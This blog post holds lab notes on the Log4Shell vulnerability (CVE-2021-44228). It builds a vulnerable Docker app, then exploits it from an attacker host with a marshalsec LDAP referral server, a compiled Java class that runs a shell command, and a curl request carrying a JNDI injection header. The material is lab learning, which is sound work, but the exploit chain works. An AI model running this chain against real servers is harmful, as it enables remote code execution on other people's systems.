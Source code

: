 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use thess documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 vulnerable machine. Firsting firt i am starting to install docker on that machine.

#### Docker İnstall On The Vulnerable Machine (10.250.1.60)


`sudo apt update`
`sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
`curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
`sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
`sudo apt update`
`sudo apt-get install docker-ce`
`docker --version`
`sudo systemctl start docker`
`sudo systemctl enable docker`
`sudo systemctl status docker`

![Image](/img/docker.png)

#### Installing Vulnerable Machine (10.250.1.60)

`cd /tmp`
`sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
`cd log4shell-vulnerable-app/`
`sudo docker build . -t vulnerable-app`
`sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## Prepare Attacker Machine (10.250.1.61)

#### Install Java JDK On the Attacker Machine 

`cd /tmp`
`sudo apt update`
`sudo apt-get install default-jdk`
`wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
`tar zxvf jdk-8u181-linux-x64.tar.gz`
`sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
`sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
`sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
`sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
`sudo update-alternatives --config java` **choose the 1.8.0_181**
`sudo update-alternatives --config javac`
`sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

`echo $JAVA_HOME``

`java -version`

![Image](/img/java_ver.png)

---

#### Prepare LDAP Referrer Server on The Attacker

`cd /tmp`
`sudo apt install maven`
`git clone https://github.com/mbechler/marshalsec`
`cd /tmp/marshalsec`
`sudo mvn clean package -DskipTests`
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### Prepare Malicious Java Code On The Attacker

`mkdir /tmp/poc`
`cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

`javac Log4jRCE.java`

`sudo python3 -m http.server`

![Image](/img/javac.png)

#### Exploit The Target Machine From The Attacker

`curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

#### Verify on the Victim Machine wheater code execution

`sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

